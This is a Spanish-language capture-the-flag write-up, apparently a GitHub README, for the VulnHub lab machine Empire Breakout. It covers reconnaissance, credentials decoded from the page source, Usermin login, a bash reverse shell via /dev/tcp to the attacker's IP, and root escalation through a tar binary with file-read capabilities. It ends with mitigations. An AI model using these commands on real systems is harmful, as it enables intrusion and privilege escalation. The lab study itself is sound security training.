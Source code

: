 # **CTF EMPIRE BREAKOUT**

OBJETIVO: Linux 192.168.131.129 (Empire Breakout) <br>
 
 <div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/HD-wallpaper-star-wars-empire-battlefront-games-gaming-ps4-star-wars-starwars-xbox.jpg" width="550" alt="Star Wars Battlefront">
</div>

## SECUENCIA DE ATAQUE

### FASE 1: PREPARACIÓN 
```bash
mkdir ~/Desktop/vulnhub && cd ~/Desktop/vulnhub
ping -c 4 192.168.131.129  # Verificación de conectividad
```
Resultado: Objetivo accesible. <br>

### FASE 2: RECONOCIMIENTO
```bash
nmap -sC -sV -p- --open -oN escaneo 192.168.131.129
```
Puertos identificados: <br>
•	80/tcp - Apache httpd (página web) <br>
•	139/tcp - Samba smbd 4.6.2 <br>
•	445/tcp - Samba smbd 4.6.2 <br>
•	10000/tcp - MiniServ 1.981 (Webmin) <br>
•	20000/tcp - MiniServ 1.830 (Usermin) <br>

### FASE 3: EXPLOTACIÓN INICIAL
Análisis web: Navegador → http://192.168.131.129 <br>
•	Página Apache por defecto encontrada <br>
•	Inspección código fuente HTML <br>

Extracción de credenciales: <br>
•	Comentario HTML: <!-- Don't worry this is safe to share with you, my access is encoded --> <br>
•	Código Brainfuck localizado al final del HTML <br>
•	Decodificación: decode.fr → Contraseña obtenida: .2uqPEfj3D<P'a-3 <br>
 <br>
```bash
echo ".2uqPEfj3D<P'a-3" > clave  # Almacenamiento seguro <br>
```

Enumeración de usuarios: <br>
```bash
enum4linux -a 192.168.131.129
```
Usuario identificado: cyber <br>

### FASE 4: ACCESO INICIAL

Autenticación: <br>
•	Panel Usermin: https://192.168.131.129:20000 <br>
•	Credenciales: cyber / .2uqPEfj3D<P'a-3 <br>
•	ACCESO CONCEDIDO <br>
 <br>
Primera flag: <br>
En la parte inferior, clicar en la consola de comandos.<br>
```bash
ls          # Exploración directorio
cat user.txt # Flag user obtenida
```

### FASE 5: SHELL REVERSA
Preparación listener: <br>
```bash
ifconfig                    # IP local: 192.168.131.128
nc -lvp 443                # Listener puerto 443
```

Ejecución desde Command Shell del panel: <br>
```bash
bash -i >& /dev/tcp/192.168.131.128/443 0>&1
Shell reversa establecida como usuario cyber
```

### FASE 6: ESCALADA DE PRIVILEGIOS

Enumeración de privilegios: <br>
```bash
sudo -l                     # Sin resultados
getcap -r / 2>/dev/null    # CRÍTICO: /home/cyber/tar cap_dac_read_search=ep
```

Identificación objetivo: <br>
```bash
cd /var/backups
ls -la                     # Archivo: .old_pass.bak (propiedad root)
```

Explotación capabilities: <br>
```bash
cd /home/cyber
./tar -cf clave.tar /var/backups/.old_pass.bak  # Compresión con capabilities
tar -xvf clave.tar                              # Extracción
cd var/backups <br>
cat .old_pass.bak                               # Contraseña root: Ts&4&YurgtRX(=~h
```

Escalada final:
```bash
su root                    # Password: Ts&4&YurgtRX(=~h
script /dev/null -c bash   # Estabilización shell
cd /root
cat root.txt              # Flag root obtenida
```

## VULNERABILIDADES CRÍTICAS EXPLOTADAS

### CREDENCIALES EN CÓDIGO FUENTE <br>
•	Vector: Contraseña Brainfuck en HTML <br>
•	Impacto: Acceso directo a panel administrativo <br>
•	Criticidad: MÁXIMA <br>

### CAPABILITIES MAL CONFIGURADAS
•	Vector: CAP_DAC_READ_SEARCH en binario tar <br>
•	Impacto: Lectura arbitraria de archivos sistema <br>
•	Criticidad: ALTA <br>

### ARCHIVO BACKUP CONTRASEÑA ROOT
•	Vector: /var/backups/.old_pass.bak <br>
•	Impacto: Escalada directa privilegios root <br>
•	Criticidad: MÁXIMA <br>
 
### PANEL ADMINISTRATIVO EXPUESTO
•	Vector: Usermin puerto 20000 sin restricciones <br>
•	Impacto: Superficie ataque administrativa <br>
•	Criticidad: MEDIA <br>

## HERRAMIENTAS EMPLEADAS
Reconocimiento: nmap, navegador web <br>
Enumeración: enum4linux, decode.fr <br>
Acceso: Panel web Usermin <br>
Persistencia: Netcat (shell reversa) <br>
Escalada: getcap, tar (capabilities) <br>

## MEDIDAS DE MITIGACIÓN

### CRÍTICAS (0-24 horas)
•	Eliminar credenciales de código fuente HTML <br>
•	Remover capability CAP_DAC_READ_SEARCH del binario tar <br>
•	Eliminar archivo /var/backups/.old_pass.bak <br>
•	Cambiar contraseña root inmediatamente <br>

### URGENTES (24-72 horas)
•	Restringir acceso paneles Webmin/Usermin por IP <br>
•	Auditar todos binarios con capabilities especiales <br>
•	Revisar ubicaciones backup archivos sensibles <br>

### IMPORTANTES (1-2 semanas)
•	Implementar gestión segura secretos <br>
•	Configurar monitoreo accesos administrativos <br>
•	Establecer proceso revisión código fuente <br>

## EVIDENCIAS
•	Flag Usuario: Capturada desde /home/cyber/user.txt <br>
•	Flag Root: Capturada desde /root/root.txt <br>
•	Credenciales: Usuario 'cyber' y contraseña root documentadas <br>
•	Archivos: Escaneo nmap y evidencias almacenadas en ~/Desktop/vulnhub/ <br>

## EVALUACIÓN
•	TIEMPO: 45 minutos <br>
•	DIFICULTAD: Baja <br>
•	DETECCIÓN: No <br>
•	El objetivo presenta varios vectores de ataque de nivel crítico que facilitan comprometerla rápidamente, destacando la combinación de credenciales expuestas y configuraciones inseguras. <br>

## MV
https://www.vulnhub.com/entry/empire-breakout,751/
